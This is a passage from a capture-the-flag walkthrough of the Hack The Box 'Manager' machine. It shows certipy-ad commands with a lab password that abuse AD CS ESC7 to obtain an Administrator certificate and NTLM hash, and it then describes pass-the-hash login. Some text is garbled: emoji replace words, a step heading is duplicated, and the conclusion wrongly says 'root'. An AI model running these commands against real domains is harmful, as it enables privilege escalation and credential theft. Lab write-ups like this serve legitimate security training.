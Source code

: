 ###### Step 4 Re-issue our failed cert:
```
certipy-ad ca -u raven@manager.htb -p 'R4v3nBe5tD3veloP3r!123' -dc-ip 10.10.11.236 -ca manager-dc01-ca -issue-request 27
```
![](/img/Pasted%20image%2020250216004907.png)

###### Step 5 Retrieve the issued cert and download as `.pfx`:
```
certipy-ad req -u raven@manager.htb -p 'R4v3nBe5tD3veloP3r!123' -dc-ip 10.10.11.236 -ca manager-dc01-ca -retrieve 27

```
![](/img/Pasted%20image%2020250216005318.png)

###### Step 6 Retrieve the issued cert and download as `.pfx`:
```
certipy-ad auth -pfx administrator.pfx
Certipy v4.8.2 - by Oliver Lyak (ly4k)
[*] Using principal: administrator@manager.htb
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@manager.htb':
aad3b435b51404eeaadsasada3b435b51404eesdsaa:ae5064c2f62317332c88629e025924ef
```
Based on the results above, we have successfully pulled the NTLM hash for the Administrator user. This means we can leverage a Pass-the-Hash (PTH) attack to authenticate as Administrator without needing the plaintext password.


## Ownership:
We can now login as the admin using their hash obtained, through pass the hash:
![](/img/Pasted%20image%2020250216010137.png)


## 📜 Conclusion 
- This walkthrough demonstrates the process of exploiting **RID Cycling Attack** **AD CS Attacks**, **Abuse  MSSQL**, and **🔓 ESC7 exploitation**.
- Key takeaways include:
    1. Enumerating users using RID cycling
    2. Escalating privileges through AD CS via ESC7 Misconfiguration
    3. Avoid 🛠️ with elevated privileges unless absolutely necessary.
By chaining 🛠️ misconfigurations and outdated 📂, I successfully escalated privileges to *root**.

###### References & Suggested Reading:
https://specterops.io/wp-content/uploads/sites/3/2022/06/Certified_Pre-Owned.pdf<br>
https://posts.specterops.io/adcs-attack-paths-in-bloodhound-part-2-ac7f925d1547<br>
https://posts.specterops.io/adcs-attack-paths-in-bloodhound-part-3-33efb00856ac